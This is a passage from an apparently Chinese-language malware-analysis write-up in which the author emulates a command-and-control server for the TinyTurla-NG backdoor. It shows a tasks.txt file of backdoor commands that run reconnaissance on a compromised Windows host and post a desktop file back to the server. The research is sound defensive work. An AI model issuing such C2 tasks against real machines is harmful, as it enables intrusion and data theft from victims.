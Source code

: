 [![](assets/1709105912-cd7a1f07daf7865d42ffdf5b44183d31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227084012-c4400e24-d508-1.png)

**由于笔者没有有效证书文件，因此笔者只能尝试模拟构建一个 HTTP 站点（将 TinyTurla-NG 新后门文件中的内置 https 外联 URL 修改为 http 外联 URL 即可实现对 HTTP 站点的访问），若大家感兴趣且手头有有效证书文件，可以尝试将代码修改为 HTTPS 站点。**

在这里，笔者将使用 golang 语言模拟构建 TinyTurla-NG 新后门 C&C 站点，详细情况如下：

代码结构如下：

[![](assets/1709105912-55d692f5efa3ba0f0cdef9436684080f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227084031-cfd28438-d508-1.png)

-   tasks.txt

```bash
rsp:timeout 1 1
rsp:ipconfig
rsp:calc.exe
rsp:dir C:\Users\admin\Desktop
rsp:post C:\Users\admin\Desktop\111.txt
rsp:whoami
```
